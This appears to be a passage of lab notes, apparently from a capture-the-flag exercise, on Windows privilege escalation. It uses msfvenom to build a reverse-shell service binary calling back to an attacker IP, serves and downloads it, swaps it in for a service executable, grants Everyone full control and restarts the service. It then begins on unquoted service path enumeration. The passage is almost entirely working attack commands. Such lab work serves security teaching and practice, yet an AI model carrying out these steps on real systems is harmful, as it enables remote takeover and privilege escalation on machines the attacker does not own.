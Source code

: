 # Create windows binary:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.18.222 LPORT=4445 -f exe-service -o rev-svc.exe


# Serve the file
python3 -m http.server


# Download the file
wget http://10.2.18.222:8000/rev-svc.exe -O rev-svc.exe

# Copy the file to correct place

C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.


# Give executable permission to all
C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
        

# Restart the service

C:\> sc.exe stop windowsscheduler
C:\> sc.exe start windowsscheduler

5. Unquoted Service Paths

# Path is quoted
sc qc "vncserver"

# Path is unquoted
# Valid paths:
# C:\MyPrograms\Disk.exe
# C:\MyPrograms\Disk Sorter.exe
# C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
sc qc "disk sorter enterprise"
